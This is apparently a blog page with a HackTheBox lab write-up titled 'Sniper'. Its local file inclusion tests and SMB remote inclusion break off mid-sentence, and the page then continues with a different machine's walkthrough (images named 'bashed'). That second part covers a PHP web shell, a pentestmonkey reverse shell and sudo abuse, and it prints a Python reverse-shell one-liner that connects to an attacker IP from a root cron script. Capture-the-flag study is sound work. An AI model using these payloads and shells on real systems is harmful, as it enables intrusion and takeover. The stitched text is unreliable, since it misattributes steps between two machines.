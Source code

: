 ```yaml
---
title: "Sniper"
date: 2023-06-24T23:52:47+02:00
tags: ["privesc","web","windows","smb"]
categories: ["hackthebox"]
author: "0x0Pwn"
image: /HTB/Sniper.png
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
description: ""
canonicalURL: "https://canonical.url/to/page"
disableHLJS: true # to disable highlightjs
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "<image path/url>" # image path/url
    alt: "<alt text>" # alt text
    caption: "<text>" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: true # only hide on current single page
editPost:
    URL: "https://github.com/pwndside/pwndside.github.io/content"
    Text: "Suggest Changes" # edit text
    appendFilePath: true # to append file path to Edit link
---
```



## Room Information

- Room name: Sniper
- Difficulty level: Medium
- Room link: https://app.hackthebox.com/machines/Sniper

![Untitled](/HTB/Sniper.png)

## Tools Used

- nmap
- gobuster
- whatweb
- 

## Port Scanning

![Untitled](/HTB/escaneo-sniper.png)

In the port scan we can see that there are multiple ports open, like 80 (web server), 445 (Samba) ...

## Enumeration

As always first thing i'm going to do is:

```bash
whatweb 10.10.10.151
```
![/Untitled](/HTB/whatweb-sniper.png)

This results show me that the JQuery version is relatively outdated, and the machine is Windows.

So let's find something on the web:
 - First thing as always do ctrl+shift+u to see the source code of the page (nothing relevant)

Soon I realized this error that had the page:

![Untitled](/HTB/php-error-sniper.png)


Here I leave the commands I used to test the error until I realized that I was indeed facing a vulnerability:

```bash
http://10.10.10.151/blog/?lang=test
http://10.10.10.151/blog/?lang=\Windows\System32\Drivers\etc\hosts
http://10.10.10.151/blog/?lang=\inetpub\wwwroot\index.php -> with the intention that I return the php code of the page
http://10.10.10.151/blog/?lang=php://filter/convert.base64-encode/resource=\inetpub\wwwroot\index.php -> with the intention 
that we do not interpret the PHP code
```
Now instead of try to introduce a local element of the machine, I'm going to try to introduce a extern element of my
fisical sistem:
	
 - The first attempt was to open a web server with *python3 -m http.server 80* and then modify the url of the machine 
   like this *http://10.10.10.151/blog/?lang=http://10.10.14.5/nmap*, to try to point to my address and see 
   if I received any requests. Nothing well.
	
 - The second attempt was to create a server with SMB  with *smbserver.py smbFolder $(pwd) -smb2support* to share the 
   smbfolder folder and modify the url as follows *http://10.10.10.151/blog/?lang=//10.10.14.5/smbFolder/test*. 
   We have connection !!!
   
   ![Untitled](/HTB/smbserver-sniper.png) 
  
   what should happen is that we would have to see the NTLM hash of version 2, but in this case it does not come out, 
   so maybe we are having a problem with the service we are offering, and we are also supporting version 2 of smb. 

 - The third attempt was


If we visit the website there are only one article with a web reverse shell information called phpbash, and a url to the github project.

In the url we can find some useful information like how works, this shell removes the necessity of do a traditional reverse shell.

Let’s try this but first some fuzzing

![Untitled](/HTB/bashed-6.png)

We can see that there is a uploads directory maybe we can try to upload a reverse shell.

With nikto, I found that the /dev directory maybe its useful

![Untitled](/HTB/bashed-7.png)

Inside the directory, there are two files, the two of them are the reverse shell which we have seen in the previous github project (seems like a reverse shell to his own machine). If we try to run one we get in.

## Gaining an Initial Foothold

![Untitled](/HTB/bashed-8.png)

We are logged like the web service and the user flag is in the arrexel home directory.

![Untitled](/HTB/bashed-9.png)

Now let’s elevate privilege

If we go to the / directory we can see that inside there is a script folder created by scriptmanager user.

When we try sudo -l we found that the the www-data user has acces to scriptmanager as sudo.

Let’s try `sudo -u scriptmanager -e /bin/bash` 

![Untitled](/HTB/bashed-10.png)

Don’t seem to work, maybe the web server doesn’t allow some commands.

Now let’s try to upload the reverse shell and this time trying to connect it to our machine instead of using the shell on /dev.

One way is to create a http server and curl the file in the victim machine. We need to modify the reverse shell file that I get [here](https://pentestmonkey.net/tools/web-shells/php-reverse-shell) with our ip and port.

![Untitled](/HTB/bashed-11.png)

![Untitled](/HTB/bashed-12.png)

Now let’s open a listening port with netcat and run the shell.

![Untitled](/HTB/bashed-13.png)

![Untitled](/HTB/bashed-14.png)

Before nothing, we are going to pass from a dumb shell to a fully interactive one.

First once we spawn a bash with `python -c 'import pty; pty.spawn("/bin/bash")'` then lets keep the nc in background with ctrl^z, once done we use `stty raw -echo` and then `fg` to return to the web shell but fully interactive this time.

Let’s retry `sudo -u scriptmanager /bin/bash`

![Untitled](/HTB/bashed-15.png)

We are scriptmanager now, let’s see what we can do in the /scripts folder. It’s seems like there are two files in the folder. One of them [test.py](http://test.py) look like this:

```bash
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

This file is created by scriptmanager but the execution of the file needs be owned by root somehow because inside the execution we are opening the test.txt file that only can be modified with root permissions. If you observe the creation time of the file test.txt, you will notice that it undergoes changes every minute. This pattern strongly suggests the presence of a cron job, which is owned by the root user, and is responsible for executing the test.py script every minute.

We can use this to our advantage and change the content of the [test.py](http://test.py) file to a reverse shell and get the system own.

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.17",1234)) //change this
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

I get this reverse shell from [pentestmonkey’s](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) handy dandy list of reverse shells.

Let’s set up a listener in the port 1234 and let the magic happen.

![Untitled](/HTB/bashed-17.png)

## Lessons Learned

- What insights did you gain from the room?
    
    I acquired knowledge on the functioning of a cron job and discovered ways to exploit it for potential machine compromise.
    
- Were there any novel tools or techniques employed?
    
    Notably, the utilization of nikto and various reverse shells were introduced.

**Thank you for reading, and happy hacking! 😄**
